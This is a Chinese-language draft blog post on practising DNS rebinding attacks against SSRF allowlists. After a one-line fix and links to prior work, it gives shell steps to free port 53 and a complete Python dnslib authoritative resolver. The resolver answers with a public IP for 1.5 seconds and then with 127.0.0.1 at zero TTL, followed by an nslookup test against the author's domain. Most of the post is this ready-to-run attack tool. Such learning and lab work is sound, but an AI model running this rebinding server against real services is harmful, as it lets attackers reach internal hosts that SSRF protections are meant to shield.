

+++
title= "DNS 重绑定攻击实践"
slug= "dns-rebinding-attack"
description= "😋"
date= "2026-02-15T22:08:20+08:00"
lastmod= "2026-02-15T22:08:20+08:00"
image= ""
license= ""
categories= ["talk"]
tags= [""]

draft= true

+++

有个日本的师傅文章写的很通俗易懂

https://blog.tokumaru.org/2022/05/dns-rebinding-protection.html

具体的修复方案也很简单，由于 ssrf 就是解析 URL 的实际 IP 去获取资源，所以只要我们默认只用第一次解析的能通过白名单的 IP 即可。

在网上找了很久有没有实际直接可用的工具，找到了一个类似的 [rbndr](https://lock.cmpxchg8b.com/rebinder.html)，但是我看了他的源码 https://github.com/taviso/rbndr 实际上是随机的IP解析，而且如果用于自己的话，需要修改其逻辑，并且因为域名不同，还需要自己改一下结构体，而且地址什么的也需要优化，很麻烦，所以放弃了

后来学习到权威解析+ dnslib  可以实现自己的域名来进行DNS重绑定攻击

在运行之前，我们需要服务器53端口可用

```bash
root@dkhkOgWXgpxwIv3RMfv:/var/www/html# ss -lunp | egrep '(:53)\b' || true
UNCONN 0      0         127.0.0.54:53        0.0.0.0:*    users:(("systemd-resolve",pid=316,fd=20))
UNCONN 0      0      127.0.0.53%lo:53        0.0.0.0:*    users:(("systemd-resolve",pid=316,fd=18))
```

 systemd-resolved 服务，我们直接停止，再加一个公用的DNS

```bash
systemctl stop systemd-resolved
systemctl disable systemd-resolved

rm /etc/resolv.conf
echo "nameserver 8.8.8.8" > /etc/resolv.conf


ss -lunp | grep 53
```

使用的转发脚本如下，具体逻辑为前 1.5s 之前为安全期，返回外网地址，第 1.5~10s 为攻击期，返回内网地址

```python
import threading
import time
from dnslib import DNSRecord, RR, A, QTYPE
from dnslib.server import DNSServer, BaseResolver, DNSLogger

MY_PUBLIC_IP = "156.239.238.207"
REBIND_IP = "127.0.0.1"
WINDOW_SIZE = 1.5
RESET_TIME = 10.0

class RebindingResolver(BaseResolver):
    def __init__(self):
        self.domains = {}
        self.lock = threading.Lock()

    def resolve(self, request, handler):
        qname = str(request.q.qname)
        reply = request.reply()

        if request.q.qtype != QTYPE.A:
            return reply

        now = time.time()

        with self.lock:
            if qname not in self.domains or (now - self.domains[qname] > RESET_TIME):
                self.domains[qname] = now
            
            start_time = self.domains[qname]

        elapsed = now - start_time

        if elapsed < WINDOW_SIZE:
            ip = MY_PUBLIC_IP
            print(f"[SAFE] {qname} -> {ip}")
        else:
            ip = REBIND_IP
            print(f"[ATTACK] {qname} -> {ip}")

        reply.add_answer(RR(qname, QTYPE.A, rdata=A(ip), ttl=0))
        return reply

if __name__ == '__main__':
    resolver = RebindingResolver()
    server = DNSServer(resolver, port=53, address="0.0.0.0", logger=DNSLogger())
    
    try:
        server.start()
    except KeyboardInterrupt:
        pass
    finally:
        server.stop()
```

域名的解析记录


那么现在`*.rebind.baozongwi.xyz`就能够进行重绑定攻击了，避免有本地和运营商的 DNS 缓存， 强制`nslookup`直接询问你的服务器 

```bash
nslookup flag.rebind.baozongwi.xyz 156.239.238.207
```


